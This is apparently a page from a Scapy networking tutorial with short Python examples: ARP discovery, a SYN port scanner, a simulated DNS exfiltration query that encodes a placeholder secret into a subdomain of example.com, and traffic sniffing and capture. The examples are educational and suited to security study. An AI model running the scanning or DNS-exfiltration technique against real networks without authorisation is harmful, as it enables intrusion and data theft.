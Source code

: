 ## 7) Practical examples

### a) Quick ARP discovery

```python
ans,unans = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst='10.0.0.0/24'), timeout=2)
for s,r in ans:
    print(f'{r.psrc} -> {r.hwsrc}')
```

### b) Basic SYN port scanner // !!non-stealthy

```python
ans, _ = sr(IP(dst='10.0.0.5')/TCP(dport=[22,80,443], flags='S'), timeout=2)
for s,r in ans:
    if r.haslayer(TCP) and r[TCP].flags == 0x12:  # SYN+ACK
        print('open', r.sprintf('%TCP.sport%'))
```

### c) DNS exfil simulation (single query with encoded payload)

```python
payload = 'SECRET-DATA-BASE64'
qname = payload + '.example.com'
resp = sr1(IP(dst='8.8.8.8')/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=qname)), timeout=3)
```

### d) Capture and save suspicious traffic to PCAP

```python
pkts = sniff(filter='tcp and (port 80 or port 443)', count=100, iface='eth0')
wrpcap('suspect_capture.pcap', pkts)
```

### e) Sniff & send JSON events to a local collector

```python
import json

def callback(p):
    if p.haslayer(IP):
        ev = {
            'time': p.time,
            'src': p[IP].src,
            'dst': p[IP].dst,
            'proto': p[IP].proto,
        }
        print(json.dumps(ev))

sniff(filter='ip', prn=callback, store=False)
```
